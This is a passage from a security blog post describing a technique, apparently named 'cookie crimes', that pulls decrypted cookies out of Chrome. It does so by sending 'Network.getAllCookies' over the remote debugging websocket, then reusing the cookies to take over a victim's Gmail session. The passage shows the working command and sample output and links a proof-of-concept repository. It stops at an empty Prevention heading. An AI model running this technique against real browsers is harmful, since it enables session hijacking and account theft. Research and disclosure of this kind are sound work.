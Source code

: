 First we'll need something that can speak the websocket language. You can use anything, but I googled for some tool called `wsc`. In the [proof-of-concept](https://github.com/defaultnamehere/cookie_crimes) (which I made just for you) the whole thing is done in Python, so you don't need this.

### Speak the Ancient Language

Ready? Let's do it

Using `wsc`:

```
wsc ws://localhost:9222/devtools/page/7404BF41DC4E7512E0431577BABCE18A
Connected to ws://localhost:9222/devtools/page/7404BF41DC4E7512E0431577BABCE18A
>
```
Oooh. Looks like a command prompt. If we knew what to type here, we could tell Chrome what to do.

I'm going to save you the 50 open Chrome tabs, reading of Ruby from 2012 on GitHub, and [discovery of the very bug report which created this feature](https://bugs.chromium.org/p/chromium/issues/detail?id=668932) and just show you the command.

```
>{"id": 1, "method": "Network.getAllCookies"}
[{
    "domain": "mail.google.com",
    "expires": -1,
    "httpOnly": false,
    "name": "GMAIL_AT",
    "path": "/mail/u/0",
    "secure": true,
    "session": true,
    "size": 42,
    "value": <unencrypted cookie value appears here>
  },
  ...<the rest of the cookies>
```

![keys](/img/keys.jpg)

Because we asked nicely, Chrome just _gives_ us the cookies. This bypasses the whole Chrome Safe Storage password thing because Chrome itself decrypts the cookies.

And we did it all without needing to become the root user, or otherwise know Naruto's password.

You can plug these cookies into a Chrome Extension (for example, [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg)), and you'll be logged in to Naruto's gmail if you just go to `mail.google.com` in your browser.

Aaaaaand that's it. Crimes successful. Directed by Quentin Tarantino.

---

If you want to try this at home, here's the code to just straight up do it for you: [https://github.com/defaultnamehere/cookie_crimes](https://github.com/defaultnamehere/cookie_crimes). If you want to try using it on someone else, [maybe this is the website for you](https://www.nsa.gov/careers/).

### Prevention
